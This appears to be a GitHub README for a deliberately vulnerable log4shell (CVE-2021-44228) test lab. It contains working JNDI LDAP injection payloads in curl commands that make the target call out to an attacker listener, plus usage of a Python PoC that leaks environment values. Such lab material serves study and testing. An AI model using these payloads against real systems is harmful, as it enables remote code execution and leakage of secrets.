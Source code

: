 # log4jpwn

log4j rce test environment. See: <https://www.lunasec.io/docs/blog/log4j-zero-day/>
Updated:
<https://github.com/lunasec-io/lunasec/blob/master/docs/blog/2021-12-09-log4j-zero-day.mdx>

This repository contains an intentionally vulnerable playground to play with CVE-2021-44228 (aka: log4shell)

Experiments to trigger the vulnerability in various software products mentioned [here](https://github.com/NCSC-NL/log4shell/tree/main/software) can be found in the [vuln-software/](vuln-software/) directory.

## examples

![1](images/image.png)

using the included python poc

![2](images/poc.png)

## build

Either build the jar on your host with `mvn clean compile assembly:single`

Or use `docker` to build an image with `docker build -t log4jpwn .`

## run

The server will log 3 things (which are also the triggers). You don't have to set all 3:

- The `User-Agent` header content
- The request path
- The `pwn` query string parameter

To use:

- Run the container with `docker run --rm -p8080:8080 log4jpwn` (or the jar if you built on your host with `java -jar target/log4jpwn-1.0-SNAPSHOT-jar-with-dependencies.jar`)
- Make a `curl` request with a poisoned `User-Agent` header with your payload. eg `curl -H 'User-Agent: ${jndi:ldap://172.16.182.1:8081/a}' localhost:8080`, where 172.16.182.1 is where my netcat lister is running.

A complete example for all 3 bits that gets logged:

```bash
curl -v -H 'User-Agent: ${jndi:ldap://192.168.0.1:443/a}' 'localhost:8080/${jndi:ldap://192.168.0.1:443/a}/?pwn=$\{jndi:ldap://192.168.0.1:443/a\}'
```

## run - exploit

The python exploit will leak values. By default it will try `${java:version}`, but you can specify anything with the `--leak` flag.

Usage is:

```text
❯ ./pwn.py --help
usage: pwn.py [-h] --target TARGET [--listen-host LISTEN_HOST] [--listen-port LISTEN_PORT] --exploit-host EXPLOIT_HOST [--leak LEAK]

a simple log4j <=2.14 information disclosure poc (ref: https://twitter.com/Black2Fan/status/1470281005038817284)

optional arguments:
  -h, --help            show this help message and exit
  --target TARGET, -t TARGET
                        target uri
  --listen-host LISTEN_HOST
                        exploit server host to listen on (default: 127.0.0.1)
  --listen-port LISTEN_PORT, -lp LISTEN_PORT
                        exploit server port to listen on (default: 8888)
  --exploit-host EXPLOIT_HOST, -eh EXPLOIT_HOST
                        host where (this) exploit server is reachable
  --leak LEAK, -l LEAK  value to leak. see: https://twitter.com/Rayhan0x01/status/1469571563674505217 (default: ${java:version})
```

Example runs:

- `./pwn.py --target http://localhost:8080 --exploit-host 127.0.0.1`
- `./pwn.py --target http://localhost:8080 --exploit-host 127.0.0.1 --leak '${env:SHELL}'`
- `./pwn.py --target http://localhost:8080 --exploit-host 127.0.0.1 --listen-port 5555`
